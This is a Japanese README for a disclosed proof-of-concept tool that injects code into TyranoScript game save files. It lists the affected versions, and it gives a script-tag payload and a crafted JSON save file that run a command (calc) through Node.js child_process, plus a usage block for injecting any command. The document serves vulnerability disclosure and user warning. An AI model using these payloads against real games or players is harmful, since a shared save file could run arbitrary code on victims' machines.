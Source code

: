 # TyranoKiller
👻 TyranoScript(Tyrano シリーズ)のテスト用コードインジェクションツール  
![main.png](images/main.png)  
CVE-XXXX-XXXX (0day)  

**⚠他者から受け取ったセーブデータファイルや開発データの利用は大変危険です!!!!⚠**  

本脆弱性は[独立行政法人情報処理推進機構(IPA)](https://www.ipa.go.jp/)及び開発者に報告を行った後、365日の期間を開けて公開されました。
脆弱性に該当しない可能性がある/セキュリティリスクとなりうる部分を修正したとの返答を受け取っており、注意喚起及び同様の脆弱性作りこみの防止を目的として開示します。
本PoCはユーザへの注意喚起と、ユーザ自身が作成したゲームの脆弱性を調査する目的でのみの利用が許可され、攻撃への転用は禁止されています。
また、他者の作成したゲームに本PoCを使用することは、法律で禁止されている場合がありますのでご注意ください。  
ツール名はジョークです(恐竜の🍖食べてみたいよね)。

## Vulnerability
以下に示すツール/バージョンを用いて開発されたすべてのゲームに、セーブデータファイル経由の脆弱性が存在します。
- TyranoScriptV5 <= 5.04b  
- TyranoScript <= 4.83  

攻撃者はセーブデータファイル内に埋め込まれたHTMLタグを経由して、JavaScriptからNode.jsの全機能を利用し、任意のコードを実行することができます。
これにより被害者は、配布されているセーブデータを読み込むだけで、悪意のあるコードの脅威に晒されることとなります。
また、ゲームの開発データである`index.html`を経由しても同様であり、対象のソフトウェア(ツール)/バージョンは以下になります。
- TyranoBuilder <= 1.87b  
- TyranoBuilderV5 <= 2.02  
- TyranoRider <= 2.20  
- TyranoStudio <= 1.10d  
- (TyranoScriptV5 <= 5.11d)  
- (TyranoScript <= 4.88)  

本PoCにはindex.htmlにコードをインジェクションするテスト機能はありませんが、以下のコードを埋め込んだゲームを開発者としてプレビューすると、XSSから任意のコードが実行されます。
```html
<script>
require("child_process").exec("calc");
</script>
```

### Payload
脆弱性調査はオリジナルのゲームセーブデータを利用せずに再現することができます。
他者のゲームにおいて調査を行う場合は、以下を利用することでセーブデータ改変の著作権諸問題を回避できます。
以下のセーブデータは、すべてのゲームのセーブデータパターンにマッチします。
```json
{
    "kind":"save",
    "data":[{
        "title":"<script>require('child_process').exec('calc');</script>"
    }]
}
```

### Demo
![calc.gif](images/calc.gif)  
(サンプルゲーム引用元: https://tyrano.jp/)  

## Usage
```bash
usage: tyranokiller.py [-h] [-c COMMAND] filename

positional arguments:
  filename              Specify the target sav file name

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Specify the command to be injected
```
デフォルトでは`calc`が実行されます。
コードはセーブデータの先頭のセーブに反映されます。

**コード`alert('Injected_by_TyranoKiller_!!!!');`は悪用を防ぐために付加されており、削除を禁止します。**
